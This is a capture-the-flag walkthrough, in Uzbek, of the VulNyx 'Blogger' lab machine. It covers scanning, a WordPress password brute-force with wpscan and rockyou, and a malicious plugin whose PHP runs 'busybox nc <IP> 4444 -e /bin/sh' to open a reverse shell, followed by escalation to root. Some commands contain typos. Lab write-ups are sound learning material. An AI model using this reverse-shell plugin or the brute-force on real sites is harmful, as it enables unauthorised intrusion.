# BLOGGER



Men VulNyx saytidagi blogger yechish uchun virtualboxga yuklab oldim.

Keyin qadamda men ip address berdi shuni men nmap va gobuster orqali skannerlab oldim.



```jsx
nmap 10.60.40.149 -sV -p-
gobuster dir -u http://10.60.40.149 -w /usr/share/dirb/common.txt
```



Keyin men gobuster o`rniga undan ham kuchliroq ffuf dan foydalandim.



```jsx
ffuf -u http://10.60.40.149/FUZZ \ /usr/share/seclists/Discovery/Web-Content/common.txt
```

Faqat meni laptopimda ffuf o`rnatib oldim va keyin natijaga e`tiboringizni qarating.





Seclists ni yuklab olish kodi.

```jsx
sudo apt upgrade | sudo apt update
sudo apt install seclists
```

Men chrome yordami url larni ko`rib chiqdim.





Men wpscan orqali saytni skaner qildim

```jsx
wpscan --url http://10.222.7.60/wordpress  --passwords /usr/share/wordlists/rockyou.txt
```

kodini kiritdim.



So`ng men wp-admin sayti kirish uchun login va parolini topdim va shu orqali saytga kirdim.





Shu plugin.php ni zip fayl qilib saytga yukladim.



plugin.php ichidagi kod

```jsx
<?php
  /**
  * Plugin Name: WordPress (Reverse Shell)
  * Plugin URI: https://wordpress.org
  * Description: (Pwn3d!)
  * Version: 1.0
  * Author: d4t4s3c
  * Author URI: https://github.com/d4t4s3c
  */
  exec("busybox nc 10.222.7.56  4444 -e /bin/sh");
?>
    
```



```jsx
zip plugin.php
```

Va plugin.php faylni ziplab yuklab keyin men nc -lvnp orqali tingladim.

```jsx
nc -lvnp 4444
```

Orqali shell keldi.Terminalni to`g`irlash kodi.

```jsx
scrept /dev/null -c bash
```



Keyin men foydalanuvchi huquqlariga qiziqdim.

```jsx
sudo -l
```



Men birinchi flagni topdim. Keyingi qadamda rootga kirish paroli wp-config.php ichidaligidan foydalanib, root ga o`tib oldim.



Mission yakuniga yetdi.Bunda ikkinchi flagni ham ko`rishiiz mumkin.